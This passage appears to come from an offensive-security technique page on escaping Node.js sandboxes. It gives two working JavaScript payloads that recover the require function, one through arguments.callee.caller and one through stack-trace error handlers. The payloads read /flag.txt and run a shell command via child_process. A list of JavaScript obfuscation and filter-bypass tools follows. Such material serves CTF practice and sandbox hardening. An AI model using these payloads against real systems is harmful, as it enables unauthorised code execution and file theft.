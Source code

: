 Therefore, if from that module we can **call another function**, it's possible to use `arguments.callee.caller.arguments[1]` from that function to access **`require`**:

{% code overflow="wrap" %}
```javascript
(function(){return arguments.callee.caller.arguments[1]("fs").readFileSync("/flag.txt", "utf8")})()
```
{% endcode %}

In a similar way to the previous example, it's possible to **use error handlers** to access the **wrapper** of the module and get the **`require`** function:

```javascript
try {
	null.f()
} catch (e) {
	TypeError = e.constructor
}
Object = {}.constructor
String = ''.constructor
Error = TypeError.prototype.__proto__.constructor
function CustomError() {
	const oldStackTrace = Error.prepareStackTrace
	try {
		Error.prepareStackTrace = (err, structuredStackTrace) => structuredStackTrace
		Error.captureStackTrace(this)
		this.stack
	} finally {
		Error.prepareStackTrace = oldStackTrace
	}
}
function trigger() {
	const err = new CustomError()
	console.log(err.stack[0])
	for (const x of err.stack) {
		// use x.getFunction() to get the upper function, which is the one that Node.js adds a wrapper to, and then use arugments to get the parameter
		const fn = x.getFunction()
		console.log(String(fn).slice(0, 200))
		console.log(fn?.arguments)
		console.log('='.repeat(40))
		if ((args = fn?.arguments)?.length > 0) {
			req = args[1]
			console.log(req('child_process').execSync('id').toString())
		}
	}
}
trigger()
```

### Obfuscation & Advanced Bypass

* **Different obfuscations in one page:** [**https://aem1k.com/aurebesh.js/**](https://aem1k.com/aurebesh.js/)
* [https://github.com/aemkei/katakana.js](https://github.com/aemkei/katakana.js)
* [https://ooze.ninja/javascript/poisonjs](https://ooze.ninja/javascript/poisonjs)
* [https://javascriptobfuscator.herokuapp.com/](https://javascriptobfuscator.herokuapp.com)
* [https://skalman.github.io/UglifyJS-online/](https://skalman.github.io/UglifyJS-online/)
* [http://www.jsfuck.com/](http://www.jsfuck.com)
* More sofisticated JSFuck: [https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce](https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce)
* [http://utf-8.jp/public/jjencode.html](http://utf-8.jp/public/jjencode.html)
* [https://utf-8.jp/public/aaencode.html](https://utf-8.jp/public/aaencode.html)